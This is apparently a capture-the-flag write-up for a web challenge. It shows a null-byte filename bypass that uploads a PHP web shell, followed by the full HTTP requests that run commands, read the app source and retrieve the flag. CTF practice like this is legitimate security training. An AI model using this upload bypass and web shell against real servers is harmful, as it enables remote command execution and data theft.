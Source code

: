 # Intro
![](../img/TTOT.png)

# Information gathering
Entering the site the user is presented with a form to upload a file, a form to translate hieroglyphs and "boxes" that probably is some hieroglyphs. Entering these "boxes" into the translator presenting a hint.  
![](../img/TheTempleOfThoth_Hint.png)


The hint: The sacred inscriptions are safeguarded by deception, but an addition might deceive the temple's guardians.

From this hint, magic or null bytes is probably the way. And previous CTF used magic bytes so let's start with null bytes. So adding ```%00.jpg``` to the file name.  
Request
```http
POST / HTTP/1.1
Host: 167.172.174.178:5000
Content-Length: 236
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Origin: http://167.172.174.178:5000
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarygyGljJRYdT8AqdXS
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://167.172.174.178:5000/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

------WebKitFormBoundarygyGljJRYdT8AqdXS
Content-Disposition: form-data; name="file"; filename="test.php%00.jpg"
Content-Type: application/x-php

<?php echo system($_GET['command']); ?>

------WebKitFormBoundarygyGljJRYdT8AqdXS--
```

Response:
```html
```html
<p><strong>Offering received: 200_test.php. Available at: <a href='http://167.172.174.178:8000/200_test.php' target='_blank'>http://167.172.174.178:8000/200_test.php</a></strong></p>
```

Null bytes were successful. And now the script is accessible and now an attacker could inject commands.  
```http
GET /200_test.php?command=id HTTP/1.1
Host: 167.172.174.178:8000
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

```http
HTTP/1.1 200 OK
Host: 167.172.174.178:8000
Date: Fri, 02 May 2025 11:33:54 GMT
Connection: close
X-Powered-By: PHP/8.0.30
Content-type: text/html; charset=UTF-8

uid=1000(ctfuser) gid=1000(ctfuser) groups=1000(ctfuser)
uid=1000(ctfuser) gid=1000(ctfuser) groups=1000(ctfuser)
```

# Attack
Navigating the folders with ```ls ..```, the same folder 
```http
GET /200_test.php?command=ls HTTP/1.1
Host: 167.172.174.178:8000
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

```http
HTTP/1.1 200 OK
Host: 167.172.174.178:8000
Date: Fri, 02 May 2025 11:34:23 GMT
Connection: close
X-Powered-By: PHP/8.0.30
Content-type: text/html; charset=UTF-8

200_test.php
200_test.php
```

```http
GET /200_test.php?command=ls+../ HTTP/1.1
Host: 167.172.174.178:8000
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

```http
HTTP/1.1 200 OK
Host: 167.172.174.178:8000
Date: Fri, 02 May 2025 11:34:37 GMT
Connection: close
X-Powered-By: PHP/8.0.30
Content-type: text/html; charset=UTF-8

__pycache__
app.py
requirements.txt
static
templates
translator.py
uploads
uploads
```

```http
GET /200_test.php?command=cat+../app.py HTTP/1.1
Host: 167.172.174.178:8000
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```


The path to the flag file is found here:  
```http
HTTP/1.1 200 OK
Host: 167.172.174.178:8000
Date: Fri, 02 May 2025 11:35:04 GMT
Connection: close
X-Powered-By: PHP/8.0.30
Content-type: text/html; charset=UTF-8

from flask import Flask, request, render_template, send_from_directory, jsonify
import os
import urllib.parse
import re
import subprocess
from translator import text_to_hieroglyphs, hieroglyphs_to_text  # Import translation functions

app = Flask(__name__)
UPLOAD_FOLDER = "/app/uploads/"
FLAG_FILE = "/home/ctfuser/flag.txt"
PHP_EXECUTABLE = "/usr/local/bin/php"

ALLOWED_EXTENSIONS = {"png", "jpg", "jpeg"}
[...]
```

```http
GET /200_test.php?command=cat+/home/ctfuser/flag.txt HTTP/1.1
Host: 167.172.174.178:8000
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

```http
HTTP/1.1 200 OK
Host: 167.172.174.178:8000
Date: Fri, 02 May 2025 11:36:39 GMT
Connection: close
X-Powered-By: PHP/8.0.30
Content-type: text/html; charset=UTF-8

O24{54cr3d_up104d_3xp10i7}
O24{54cr3d_up104d_3xp10i7}
```

```Flag: O24{54cr3d_up104d_3xp10i7}```